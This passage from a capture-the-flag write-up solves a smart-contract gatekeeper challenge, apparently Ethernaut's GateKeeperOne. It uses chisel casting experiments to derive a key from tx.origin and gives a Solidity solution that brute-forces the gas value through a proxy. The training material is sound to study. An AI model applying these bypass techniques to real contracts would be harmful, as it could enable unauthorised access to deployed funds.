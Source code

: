 
```bash
$ chisel

➜ _gateKey = 0x1122334455667788

➜ uint32(uint64(_gateKey))
Type: uint
├ Hex: 0x55667788

➜ uint16(uint64(_gateKey))
Type: uint
├ Hex: 0x7788

➜ uint64(_gateKey)
Type: uint
├ Hex: 0x1122334455667788

➜ uint16(uint160(0xabcd9a9e9aa1c9db991c7721a92d351db4fac990))
Type: uint
├ Hex: 0xc990
```

- `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`
  - can be true with `0x1122334400007788`.

- `uint32(uint64(_gateKey)) != uint64(_gateKey)`
  - needs both to be different, which is true

- `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))`
  - make `7788` equal to the last hex digits of tx.origin
  - ex: `0x1122334400007788` => `0x112233440000ea72`
  - in fact, it can be 0x100000000000ea72,
  - which makes it straighforward to get analytically.

Putting all the elements together:

```solidity
  Proxy proxy = new Proxy(challengeAddress);
  bytes8 key = bytes8(uint16(uint160(tx.origin)) + 0x1000000000000000);

  // this loop is to brute-force the gateTwo
  for (uint i = 27000; i > 0; i--) {
    if (proxy.enter{gas: i}(key)) {
      require(challengeFactory.validateInstance(payable(challengeAddress), tx.origin));
      break;
    }
  }
```

### References

* https://docs.soliditylang.org/en/v0.8.19/contracts.html#function-modifiers
* https://docs.soliditylang.org/en/v0.8.19/cheatsheet.html#global-variables
  * `gasleft() returns (uint256)`: remaining gas
* https://github.com/foundry-rs/foundry/tree/master/chisel
